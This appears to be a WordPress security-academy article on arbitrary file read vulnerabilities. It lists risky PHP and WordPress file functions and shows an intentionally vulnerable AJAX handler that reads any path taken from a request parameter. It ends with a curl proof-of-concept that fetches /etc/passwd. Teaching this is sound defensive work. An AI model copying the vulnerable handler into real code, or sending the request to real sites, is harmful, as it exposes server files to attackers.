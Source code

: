 ```yaml
---
title: Arbitrary File Read
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Read on WordPress. This includes improper file fetch handling inside of the plugin/theme which can be used to read arbitrary local files inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Read"
  href="/academy/wordpress/securing-code/arbitrary-file-read/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Read vulnerability:

- PHP related
    - [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php)
    - [`readfile`](https://www.php.net/manual/en/function.readfile.php)
    - [`fopen`](https://www.php.net/manual/en/function.fopen.php)
    - [`fread`](https://www.php.net/manual/en/function.fread.php)
    - [`fgets`](https://www.php.net/manual/en/function.fgets.php)
    - [`fgetcsv`](https://www.php.net/manual/en/function.fgetcsv.php)
    - [`fgetss`](https://www.php.net/manual/en/function.fgetss.php) *deprecated from PHP 7.3*
    - [`file`](https://www.php.net/manual/en/function.file.php)
    - [`cURL`](https://www.php.net/manual/en/book.curl.php)

- WordPress related
    - [`WP_Filesystem_Direct::get_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents/)
    - [`WP_Filesystem_Direct::get_contents_array`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents_array/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `WP_Filesystem_Direct::get_contents` function.

```bash
curl '<WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=get_file&url=/etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

Below are some of the findings related to Arbitrary File Read:

- [Critical Vulnerabilities Patched in WordPress Automatic Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/)

